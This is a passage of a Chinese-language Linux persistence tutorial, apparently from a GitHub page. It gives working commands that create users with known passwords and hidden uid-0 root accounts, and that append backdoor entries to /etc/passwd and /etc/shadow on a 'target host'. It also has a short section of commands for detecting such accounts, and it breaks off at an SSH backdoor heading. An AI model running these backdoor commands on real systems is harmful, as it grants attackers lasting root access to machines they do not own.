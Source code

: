 ```bash
# 创建一个用户名guest，密码为123456的普通用户

useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法 `` 是用来存放可执行的系统命令。“$()”也可以存放命令执行语句。
useradd -p "$(openssl passwd -1 123456)" guest

# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd

# echo -e方法
useradd guest;echo -e "123456\n123456\n" |passwd guest
```

添加root用户：

```bash
# 创建一个用户名为guest，密码为123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/guest
```

排查方法：

```bash
# 查询特权用户（uid = 0）
awk -F: '$3==0{print $1}' /etec/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

### 2. 增加超级用户

在完成用户添加后，可以对添加的用户赋予超级用户权限。

目标主机执行：

```bash
echo "v4ler1an:x:0:0::/:/bin/sh" >> /etc/passwd
```

如果目标系统不允许uid=0的用户远程登录，可以增加一个普通用户账号：

```bash
echo "v4ler1an::-1:-1:-1:-1:-1:-1:500" >> /etc/shadow
```

有些情况下添加不成功可能是因为密码强度不够，可以适当增加密码强度。

### 1. SSH后门

#### 1. sshd 软连接

目标主机建立软连接：
